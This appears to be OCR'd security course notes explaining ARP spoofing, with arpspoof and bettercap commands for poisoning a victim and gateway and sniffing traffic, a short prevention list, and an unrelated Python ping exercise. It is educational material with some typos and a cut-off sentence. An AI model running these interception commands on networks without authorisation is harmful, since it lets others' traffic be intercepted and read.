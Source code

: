    a. The attacker must have access to the network. They scan the network to determine the IP addresses of at least two devices —let’s say these are a workstation and a router.

   b. The attacker uses a spoofing tool, to send out fake ARP responses.

   c. The fake responses advertise that the correct MAC address for both IP addresses, belonging to the router and workstation, is the attacker’s MAC address. This fools both router and workstation to connect to the attacker’s machine, instead of to each other.

   d. The two devices update their ARP cache entries and from that point onwards, communicate with the attacker instead of directly with each other.

   e. The attacker is now secretly in the middle of all communications
### ARP poisoning
1) We will get the mac of our gateway
2) We will get our linux machine mac

   a) arp -g
3) Enable ip forward

   a) sudo sysctl net.ipv4.ip_forward=1
4) Start the spoofing with arpspoof tool

   a) Arpspoof -i interface -t target -r defaultgatewayip
- NOTE:
  - ip of attacker: 192.168.1.8
  - Ip of victim: 192.168.1.3
  - gatewap : 192.168.1.1
1) Install bettercap
2) Start bettecap
3) Scan the network

   a) net.probe on

   b) net.show => to see the network
4) Start arp spoofing

   a) set arp.spoof.targets <ip>

   b) arp.spoof on
5) Start Mitm\

   a) net.sniff on

   b) net.sniff off
### Prevention
1. Using static ARP tables: manually setted
2. Switch security: some feature for ARP poisoning
3. Encryption: not for arp but in case of leaks
## Simple python tools
1) Write a program that accepts input from the user and check if the link is up or down.

   a) use os package/module

   b) os.popen("ping -n 1 google.com").read()

   c) This will tell you if

   d) And try algorithm like searching from the result of the upper hint
      i) If (“hello world” or “best”) in “hello world is the best quote.”: -> on python this will work fine
      
   e) Try to understand the difference between the result of down ping and up ping